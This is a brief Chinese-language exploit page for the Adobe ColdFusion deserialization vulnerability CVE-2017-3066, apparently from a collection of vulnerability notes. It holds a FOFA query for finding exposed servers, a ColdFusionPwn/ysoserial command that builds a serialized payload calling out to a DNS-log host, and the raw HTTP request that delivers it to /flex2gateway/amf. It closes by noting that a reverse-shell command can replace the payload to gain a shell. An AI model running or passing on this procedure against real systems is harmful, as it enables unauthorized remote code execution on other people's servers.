# Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）
## 资产搜索
fofa app="Adobe-ColdFusion"
## 特征
控制台地址：`/CFIDE/administrator/index.cfm`
![](img/tz.png)
## POC
使用[工具](file/ColdFusionPwn-0.0.1-SNAPSHOT-all.jar)生成poc：  
`java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'nslookup xx.dnslog' poc.ser`  
POC作为数据包body发送给`http://your-ip/flex2gateway/amf`，Content-Type设置为application/x-amf：  
```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```
![](img/poc.png)
讲poc换成反弹shell的命令，即可获取shell